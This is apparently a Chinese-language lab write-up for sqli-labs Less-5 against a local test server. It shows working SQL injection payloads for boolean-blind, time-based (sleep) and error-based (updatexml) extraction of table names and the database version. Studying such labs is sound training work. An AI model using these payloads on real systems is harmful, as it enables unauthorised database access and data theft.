



```javascript
http://127.0.0.1/sql-labs/Less-5/?id=1'and'1'='1
```





```javascript
http://127.0.0.1/sql-labs/Less-5/?id=1'and'1'='2
```





1=1和1=2返回的页面不同所以判断存在sql注入，但是返回的内容只有两种，所以可以利用盲注。


1.布尔盲注

```javascript
http://127.0.0.1/sql-labs/Less-5/?id=1' and ascii(substr((
select table_name from information_schema.tables where 
table_schema=database()  limit 0,1),1,1))=101--+
```


通过返回的页面不同，所以判断表名第一个字段


2.时间盲注

```javascript
http://127.0.0.1/sql-labs/Less-5/?id=1'and if
((substr((select group_concat(table_name) from information_schema.tables 
limit 0,1),1,1)=101),sleep(5),0)--+
```

当返回响应时间超过5秒时 ，所匹配的字符就为表名的第一个字符。


3.这里还可以使用报错注入。

```javascript
http://127.0.0.1/sql-labs/Less-5/?id=1'and 
updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)--+
```




